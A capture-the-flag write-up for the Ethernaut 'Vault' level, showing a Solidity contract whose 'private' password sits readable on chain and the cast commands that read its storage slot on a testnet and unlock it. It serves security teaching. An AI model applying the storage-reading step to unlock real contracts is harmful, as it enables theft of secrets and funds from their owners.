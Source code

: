 ```yaml
---
title: "Vault"
rags: ["Variables", "Storage"]
reference: https://ethernaut.openzeppelin.com/level/8
---
```


# Description

Unlock the vault to pass the level!

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

# Solution

1. To unlock the vault we need to provide the correct password to the `unlock` function

2. We can get the password by looking at the contract state variable `password` because all state variables are publicly stored on chain.

3. get the password

```
tim@tim-virtual-machine ~/g/the-ethernaut (main)> cast storage 0xE4778ADB9670cA700251a6A1920B935fa8595b74 1 --rpc-url $BASE_SEPOLIA_RPC
0x412076657279207374726f6e67207365637265742070617373776f7264203a29 // password variable
tim@tim-virtual-machine ~/g/the-ethernaut (main)> cast storage 0xE4778ADB9670cA700251a6A1920B935fa8595b74 0 --rpc-url $BASE_SEPOLIA_RPC
0x0000000000000000000000000000000000000000000000000000000000000001 // locked variable
```

storage layout ref: https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html

4. unlock the vault

```
cast send 0xE4778ADB9670cA700251a6A1920B935fa8595b74 "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --rpc-url $BASE_SEPOLIA_RPC --private-key
```
